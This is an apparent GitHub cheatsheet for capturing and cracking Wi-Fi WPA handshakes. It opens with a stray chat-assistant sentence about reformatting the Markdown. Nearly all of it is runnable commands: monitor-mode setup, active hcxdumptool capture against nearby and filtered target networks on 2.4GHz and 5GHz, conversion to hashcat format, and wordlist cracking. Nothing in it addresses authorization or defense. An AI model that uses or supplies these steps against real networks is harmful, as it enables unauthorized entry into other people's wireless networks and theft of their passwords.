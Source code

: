 You're right, my mistake. Here is the Markdown with the titles unboxed and the commands in code blocks:

# Wi-Fi Handshake Capture & Crack Cheatsheet 📡

## Table of Contents 📋

- [Preliminary Commands & Information Retrieval](#preliminary)
- [Capture & Conversion Phase](#capture)
- [Additional Scans & Information](#additional) 
- [Cracking Phase](#cracking)
- [5GHz Network Capturing Cheat Sheet](#5ghz)

## Preliminary Commands & Information Retrieval

**Secure Copy from Remote Device**

```
scp -r root@172.16.42.1:/root/example.pcapng /home/username/Desktop
```

📖 Downloads files from remote devices using SCP.

**Check Wireless Interfaces** 

```
iwconfig
```

📖 Displays wireless network interface details.

**Kill Interfering Services**

```  
airmon-ng check kill
```

📖 Stops services that might interfere with wireless tools.

## Capture & Conversion Phase

**Set Wireless Card to Monitor Mode**

```
sudo ip link set wlan0 down  
sudo iw wlan0 set monitor control
sudo ip link set wlan0 up
```

📖 Prepares the wireless card for capture.

**Capture Handshakes with hcxdumptool** 

```
hcxdumptool -i wlan1 -o dumpfile.pcapng --active_beacon --enable_status=15
```

📖 Captures packets from networks.

**Convert Captured File for Hashcat**

```
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
``` 

📖 Converts packets for password cracking.

## Additional Scans & Information

**Scan for Nearby Networks**

```
hcxdumptool --do_rcascan -i wlan1 
```

📖 Scans and displays nearby networks.

## Cracking Phase 

**Crack with Hashcat**

```
hashcat -m 22000 hash.hc22000 wordlist.txt
```

📖 Uses hashcat to attempt password cracks.

## 5GHz Network Capturing Cheat Sheet

1. **Install Necessary Tools**

   ```
   sudo apt-get install hcxdumptool hcxtools
   ```

2. **Check for 5GHz Support**

   ```
   iw list
   ```

3. **Enable Monitor Mode**

   ```
   sudo ip link set wlan0 down
   sudo iw dev wlan0 set type monitor
   sudo ip link set wlan0 up
   ```

4. **Set to 5GHz Channel**

   ```
   sudo iw dev wlan0 set channel 36
   ```

5. **Identify Target Networks**

   ```
   sudo hcxdumptool -i wlan0 --scan
   ```

6. **Capture Traffic**

   ```
   sudo hcxdumptool -i wlan0 --enable_status=1 -o output.pcapng --filterlist=filterlist.txt --filtermode=2
   ```

7. **Analyze Captured Traffic**

   ```
   hcxpcaptool -z output.hccapx output.pcapng
   ```

8. **Troubleshooting**

   ```
   sudo iw reg get
   sudo iw reg set US
   ```

9. **Switch Back to 2.4GHz**

   ```
   sudo ip link set wlan0 down
   sudo iw dev wlan0 set type monitor
   sudo iw dev wlan0 set channel 6
   sudo ip link set wlan0 up
   ```

10. **List 2.4GHz Channels**

    ```
    iw phy phy0 channels
    iwlist wlan0 channel
    ```

